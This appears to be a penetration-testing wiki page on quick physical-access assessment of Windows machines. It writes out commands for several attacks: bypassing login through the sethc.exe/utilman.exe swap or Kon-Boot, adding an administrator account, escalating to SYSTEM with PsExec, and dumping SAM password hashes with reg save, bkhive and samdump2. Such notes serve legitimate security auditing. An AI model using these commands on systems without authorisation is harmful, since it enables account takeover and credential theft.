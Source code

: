 # Quick Windows assessment

The aim is to quickly audit the Windows configuration, dump hashes and/or
attempt to crack them.

## Boot security

Reboot the system and try to access to the BIOS/UEFI configuration panel. Is
there a password to protect its access or alteration ? If no, it is possible to
boot on Linux from a USB stick, an external hard drive, a CD-ROM or the network
(PXE).

## Hard drive security

The hard drive may be protected/locked (only compatible with the initial laptop) or
encrypted. If it is not encrypted, it is possible to mount, browse, alter the
file system and dump Windows hashes from Linux. If the boot was protected but
the hard drive was not locked, it is possible to extract it from the laptop and
analyze it from a USB / HDD (SATA/IDE) adaptor.

## Gaining access to the system with privs from Live(CD/USB)

### Kon-Boot

Kon-Boot is an application which will silently bypass the authentication process
of Windows based operating systems. Without overwriting the old password. It is
possible to use it by booting from a USB key or a CD-ROM:
[Kon-Boot](https://www.piotrbania.com/all/kon-boot/)

### sethc.exe

Boot from a Linux live CD or a repair disk and replace
`C:\Windows\System32\sethc.exe` with `C:\Windows\System32\cmd.exe`. When the
sticky key combination (Shift 5 times) is pressed at the logon screen, you will
get access to a command prompt with NT-SYSTEM privileges.

### utilman.exe

Boot from a Linux live CD or a repair disk and replace
`C:\Windows\System32\utilman.exe` with `C:\Windows\System32\cmd.exe`. When
pressing `Windows key + U` at the logon screen, you will get access to a
command prompt with NT-SYSTEM privileges.

## Gaining access to the system with privs from DMA attacks

* [Inception](https://github.com/carmaa/inception)
* [PCILeech](https://github.com/ufrisk/pcileech)
* [Generating signatures](https://sysdream.com/news/lab/2017-12-22-windows-dma-attacks-gaining-system-shells-using-a-generic-patch/)

## Gaining access to the system with privs from PXE

1. PXE booting a Windows image with Hyper-V, VMWare or VirtualBox
```
Boot from Legacy Network Adapter
```

2. During the PXE boot deployment process, installation, or login steps, suspend or take a snapshot of the VM’s current state

3. Browse to the snapshot file location and look for the corresponding files for your hypervisor
- VMWare: .vmem, .vmsn (snapshot memory file), .vmss (suspended memory file)
- Hyper-V: .BIN, .VSV, .VMRS (virtual machine runtime file)

4. Grep and strings fu, example:
```
strings PXEtest.VMRS | grep -C 4 "UserID=deployment"
```

5. Change the boot mode and choose to boot from hard drive
```
Boot from IDE
```

6. Restart the VM and press Shift+F10 during the initial Windows setup process

7. Within the shell, create a user with administrator privileges as above

## Creating a user with administrator privileges (not stealthy!)

From the above methods:
```
net user audit_user /add
net localgroup administrators audit_user /add
```

## Performing a quick system safety-checks
* [Seatbelt](../../tools/Seatbelt.md)

## Escalating privileges
* PsExec:
```
PsExec.exe -i -s cmd.exe
```

* [Privilege escalation](PrivEsc.md)

## Dumping hashes

Dumping Windows hashes is a crucial part of penetration tests. It can be used in
order to perform [pass-the-hash](Pass-the-hash.md),
[password cracking](PasswordCracking.md),
[password policy analysis](PasspolAuditing.md), etc.

### Dumping SAM from linux

```
# mkdir -p /mnt/sda1
# mount /dev/sda1 /mnt/sda1
# bkhive /mnt/sda1/Windows/System32/config/SYSTEM /tmp/saved-syskey.txt
# samdump2 /mnt/sda1/Windows/System32/config/SAM /tmp/saved-syskey.txt > /tmp/hashes.txt
```

### Dumping SAM from Windows

```
reg save HKLM\SAM sam.hive
reg save HKLM\SECURITY security.hive
reg save HKLM\SYSTEM syskey
```

And one time again on Linux:
```
# bkhive syskey /tmp/saved-syskey.txt
# samdump2 sam /tmp/saved-syskey.txt > /tmp/hashes.txt
```

### Moar ?
* To check other [hashdump techniques](HashDump.md)
* To obtain more information about Windows hashes: [Windows hashes](WindowsHashes.md)
